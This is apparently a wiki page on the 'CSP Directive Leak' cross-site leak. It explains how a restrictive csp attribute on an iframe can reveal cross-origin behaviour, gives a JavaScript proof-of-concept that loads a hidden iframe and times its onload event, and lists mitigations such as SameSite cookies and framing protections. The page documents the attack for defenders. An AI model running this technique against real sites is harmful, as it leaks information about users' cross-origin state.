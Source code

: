 +++
title = "CSP leaks"
description = ""
category = "Attack"
abuse = [
    "CSP Violations",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

## CSP Directive Leak

Without using the `Allow-CSP-From` header an embeder is not allowed to set a more restictive policy on to an iframe,
For most directives so by trying to applying `img-src 'https://example.com';` to the iframe csp attribute it will refuse to load unless its only allowing images from that source this can be detected with the onload event.  [demo](https://xsinator.com/testing.html#CSP%20Directive%20Leak)

```javascript
async function ifResticts(url, csp) {
    return new Promise((r) => {
        let f = document.createElement('iframe');
        f.setAttribute('csp', csp);
        f.hidden = true;
        f.src = url;
        f.onload = () => {
            f.onload = () => {
                f.remove();
                return r(0);
            }
            f.src = url + '#';
        }
        let t = setTimeout(() => {
            f.remove();
            return r(1);
        }, 2000);
        document.body.append(f);
    });
}
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ✔️                                         |                         ❌                          |                                ✔️                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References
